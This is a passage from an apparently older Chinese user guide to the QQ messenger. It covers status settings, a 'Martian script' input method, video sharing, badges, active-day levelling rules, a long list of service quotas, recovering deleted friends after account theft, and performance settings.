

图7

- 5. 新增拍拍购物状态

随着腾讯功能的发展，越来越多的功能状态被附加在QQ上，比如QQ直播状态、游戏状态……现在又推出了拍拍购物状态。

如果你不希望相关的状态被显示，可以自己进行设置。运行QQ，依次选择“设置”→“个人设置”→“状态显示”，如图8，现在就可以看到状态显示设置，你可以单击勾选框把勾去掉后，相关的状态就不会显示了。



图8

#### 1.1.2 玩酷聊天文字

近来，90后甚是推崇所谓的“火星文”，该文字的另一种说法为“脑残体”，因阅读起来极其吃力而得名。

> **小知识**  
> 火星文，字面上可解析为火星人用的文字！其实是网友（尤其是年轻网友）使用同音字、音近字、特殊符号来表音的文字，由于这种文字与日常使用的文字相比有明显的不同并且相当奇异，故戏称为火星文。如今，火星文已经被大量应用在聊天、论坛、网游中，成为网络弄潮儿的最爱。

使用火星文聊天现在已经成为一种时尚，在QQ聊天中我们也能经常见到网友发来的火星文。如何让自己也能输入火星文，感受一下奇异的聊天气氛呢？我们可以安装一个火星文输入法。

orz6火星文智能输入法可以帮助我们轻松驾驭火星文，我们需要用到软件的“实时自动转换”功能，如图9。此功能可以实现使用普通输入法打出火星字，它通过使用系统钩子自动寻找输入法并完成转换。这样，只要打字就会直接显示出转换完成的火星文。



图9

其中，“转换的内容”最好只选“中文（必选）”，否则当登录游戏等其它软件时，不能正常输入密码；“转换难易度”当然要看你的火星文掌握水平了。

如果你是一个火星文发烧友的话，甚至可以选择“开机自动启动”。现在你使用输入法打出中文，就全部是火星文了，呵呵，如图10。



图10

#### 1.1.3 聊天炒股两不误

在QQ面板的左侧有个“股”字符图标，点击该图标即可进入股票相关页面，如图11。页面简洁明了，方便我们直接查看最新的股市行情。我们还可以订阅自选股，真正实现边聊天边关注股市行情。



图11

#### 1.1.4 给网友播放电影

自己电脑里有一个非常不错的视频想分享给好友，这时怎么办呢？如果把视频文件传给他，文件太大，而且还费时间。我们可以尝试一下QQ中内置的“给对方播放影音文件”功能。

在与好友进行聊天时，选择聊天窗口顶部的第二个摄像头图标，然后选择“给对方播放影音文件”，接着选择需要播放的影音文件即可，如图12。



图12



图13

最新的QQ版本已经支持播放RM格式的文件。选择好了之后你会向对方发送一个视频请求，只要对方接受，在视频显示窗口就会出现正在播放的视频了，如图13所示。

#### 1.1.5 QQ秀徽章

QQ秀徽章是一种代表你荣誉和身份的特殊QQ秀，您可以选择挂在QQ秀上的任何一个地方，用来展示您在QQ秀世界中的身份，纪念QQ秀家庭中您的生活历程。你可以在徽章博物馆（http://show.qq.com/community/badge/index.html）查看有关徽章的信息，以及徽章的领取方法，如图14所示。



图14

领取的徽章可以放在QQ秀上，使用方法和QQ秀一样。徽章可以在“我的QQ秀”－“我的徽章”页面中进行选择，如图15。



图15

有一点要说明的是，QQ秀徽章全都是免费的，不能用钱购买；只要您赢得资格，就能永久获章，永久免费收藏！部分徽章会成套出版，还支持交换收藏功能。

#### 1.1.6 活跃天数积累方法

目前的QQ升级采用“活跃天数”的积累方法，如果你想早早地出现太阳（16级为太阳，可以享受免费建群以及免费自定义头像的特权），务必要首先了解一下QQ的“活跃天数”积累方法，具体内容如下：

- 普通用户为：
- 当天（0:00—23:59）使用QQ在2小时（及2小时以上），算用户当天为活跃天，为其活跃天数累积1天。
- 当天（0:00—23:59）使用QQ在0.5小时至2小时，为其活跃天数累积0.5天。
- 当天（0:00—23:59）使用QQ在0.5小时以下的，不为其累积活跃天数。

QQ会员为：

- 当天（0:00—23:59）使用QQ在2小时（及2小时以上），根据VIP等级的不同，最多可以为其活跃天数累积1.6天。

| QQ会员VIP等级 | 在线时间 | 每天在线可累积活跃天数 |
|---|---|---|
| VIP1 | 2小时 | 1.1天 |
| VIP2 | 2小时 | 1.2天 |
| VIP3 | 2小时 | 1.3天 |
| VIP4 | 2小时 | 1.4天 |
| VIP5 | 2小时 | 1.5天 |
| VIP6 | 2小时 | 1.6天 |

- 当天（0:00—23:59）使用QQ在0.5小时至2小时，为其活跃天数累积0.5天。
- 当天（0:00—23:59）使用QQ在0.5小时以下的，不为其累积活跃天数。

#### 1.1.7 QQ数字世界

QQ经过多年的发展，形成了自己的数字虚拟世界，以下就是QQ世界的“规章制度”，这些你都知道吗？如果不知道就请往下阅读。

##### 一、聊天

- QQ付费服务关闭延长期为3天
- 每个QQ添加好友数+群组数=500
- 每个QQ每天可以用2次“忘记密码”
- QQ密码最多可以是16个字母（或数字）或8个汉字
- 普通号码无登录收回期限是3个月
- 每个QQ号码最多可以有5个音乐盒
- 每个QQ号码最多可以建立15个分组
- QQ昵称最多6个汉字
- QQ签名最多25个汉字
- QQ聊天单次发送图片为1MB
- QQ聊天消息最大字数为3420字（起初是400字）
- QQ历史上相邻两个简体中文版出炉的最小间距是19天[QQ2004II beta3(2004.12.9)和QQ2004II正式版(2004.12.28)]
- 目前QQ图标总数为56个

##### 二、群组

- 每个QQ可以建立一个校友录班级
- 普通群可以设立两个管理员
- 高级群可以设立四个管理员
- 会员可以建立四个群组
- 16级QQ可以建立一个群组
- 普通群上限人数是100个
- 高级群上限人数是200个
- 普通群共享空间是16MB
- 高级群共享空间是256MB
- 普通群共享空间单次上传4MB
- 高级群共享空间单次上传无限制
- 普通群像册空间是10MB
- 高级群像册空间是100MB
- 普通群论坛最大帖子数是500
- 普通群单帖最大字数2500字
- 高级群单帖最大字数2500字
- 高级群论坛最大帖子数是20000

##### 三、硬盘

- 网络硬盘增容单次最少5MB
- 网络硬盘降级期限为30天
- 网络硬盘共有5种规格
- 网络硬盘的上限是1787MB
- 普通用户网络硬盘容量16MB
- 普通用户网络硬盘限速30KB/S
- 普通用户网络硬盘邮件转发最大4MB
- 普通用户网络硬盘单次上传最大4MB
- 普通用户网络硬盘自定义表情上传最大4MB
- QQ行用户网络硬盘容量32MB
- QQ行用户网络硬盘限速30KB/S
- QQ行用户网络硬盘邮件转发最大10MB
- QQ行用户网络硬盘单次上传最大8MB
- QQ行用户网络硬盘自定义表情上传最大4MB
- VIP用户网络硬盘容量128MB
- VIP用户网络硬盘单次上传最大128MB
- VIP用户网络硬盘邮件转发最大20MB
- VIP用户网络硬盘单次在线播放歌曲最大10首
- VIP用户网络硬盘单次播放文件最大10MB
- 豪宅型用户网络硬盘容量256MB
- 豪宅型用户网络硬盘单次上传最大256MB
- 豪宅型用户网络硬盘邮件转发最大20MB
- 豪宅型用户网络硬盘单次播放文件最大10MB
- 别墅型用户网络硬盘容量512MB
- 别墅型用户网络硬盘单次上传最大512MB
- 别墅型用户网络硬盘邮件转发最大20MB
- 别墅型用户网络硬盘单次播放文件最大10MB

##### 四、信箱

- 信箱域名连续操作间隔不得小于30天
- 信箱别名用户名3-20位
- 普通用户信箱容量是5MB
- 普通用户信箱单封最大附件4MB
- 普通用户信箱单次抄送上限为20封
- QQ行用户信箱容量是20MB
- QQ行用户信箱单封最大附件10MB
- QQ行用户信箱单次抄送上限为50封
- VIP用户信箱容量是100MB
- VIP用户信箱单封最大附件20MB
- VIP用户信箱单次抄送上限为50封
- 大肚邮用户信箱容量1GB
- 大肚邮用户信箱最大附件30MB
- 移动QQ信箱用户信箱容量50MB
- 移动QQ信箱用户信箱最大附件10MB

##### 五、账户

- 收费QQ续费限期为30天
- 每个QQ每天接受转账上限为200QB
- 每个ADSL每月可以给每个QQ号码充值200QB
- 单次充值下限是1QB
- 单次消费下限是0.1QB（家园）
- 游戏币:QB=15000:1
- QB:游戏币=1:10000

##### 六、移动QQ

- 每个手机只能为1个QQ VIP付费
- 每个手机只能为1个QQ行付费
- 每个手机转账每天上限为100QB
- 每个手机只能绑定1个QQ号码
- 每个手机每天最多申请普通QQ号码20个
- 每个手机连续申请号码间隔为5MIN
- 每条手机短信字数上限为130字符
- “QQ千里眼”“监视”好友上限数为20人
- “短信超人”每天短信条数上限为150条
- “移动QQ”每天短信条数上限为150条
- 移动QQ有四个短信站（移动1700、电信1700、联通9777、网通17000）

在知道了上面的“规章制度”之后，以后就不怕自己在QQ的网络世界中迷失了。

#### 1.1.8 QQ好友恢复

QQ号被盗很令人苦恼，幸好现在有了DNA验证，终于可以使得自己心爱的QQ密码不会被别人更改了。可是有些盗号者发现不能修改你的密码后，却卑鄙无耻地删除你的好友，使得自己的QQ号变成了“光杆司令”，让人非常苦恼！

不过没关系，腾讯现在已经推出了非常简便的QQ好友恢复系统，你只需登录huifu.qq.com就进入了，如图16。它的页面非常简洁，就三个框，你只需要填入QQ号码、密码和验证码，然后登录就可以了。这里既可恢复QQ群，也可恢复QQ好友。


图16

我们选择恢复QQ好友，在这个页面有三个选项可供选择：恢复三月内被删除的好友、仅恢复两月内被删除的好友和仅恢复一月内被删除的好友。也就是说，只要是三个月内被删除的好友，你都可以选择恢复，如图17。这样一来，等我们找回QQ后，即可马上恢复好友了。



图17

选择需要恢复的方式，然后按下提交按钮就可以了。如果你是QQ会员，只要重新登录QQ，被删的好友列表就会重新恢复了；但是对普通用户而言，还需要进行一些小操作。普通用户在重新登录QQ后，需要点击QQ面板上的“菜单”按钮，在弹出的菜单项目中选择“好友与资料”，然后选择“更新好友”即可，如图18、图19。





图18

图19

这样的操作只能恢复好友，分组是不会恢复的，恢复的好友全部都在“我的好友”一栏中，如果你还要分组，就全靠你自己整理了，呵呵。

#### 1.1.9 为QQ提速

随着QQ功能的发展，整体显得越来越臃肿，对于一些低配置的用户来说，那些新加的功能无疑成为了一种负担，大大影响了QQ的运行速度。我们针对这种情况可以在登录时去掉一些不必要的步骤，以简化QQ，使QQ轻装上阵。

运行QQ后，选择“菜单”－“设置”－“系统设置”－“基本设置”，如图20，开启“拒绝陌生人消息”、“禁止所有用户上线提示”、“禁止使用USB Phone”、“禁止所有新邮件提示”、“屏蔽窗口抖动”，取消“自动播放魔法表情”、“宠物随QQ自动启动”、“自动弹出视频请求窗口”、“自动弹出3D聊天窗口”。

